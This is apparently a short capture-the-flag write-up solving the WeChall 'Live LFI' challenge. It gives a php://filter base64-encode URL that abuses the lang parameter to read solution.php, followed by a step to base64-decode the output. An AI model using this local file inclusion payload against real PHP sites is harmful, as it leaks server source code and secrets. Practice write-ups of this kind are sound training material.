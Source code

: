 Warchall: Live LFI
--
go on https://www.wechall.net/challenge/warchall/live_lfi/index.php

change the link to https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php

copy and for base64 decode go on https://cafewebmaster.com/online_tools/utf8_encode
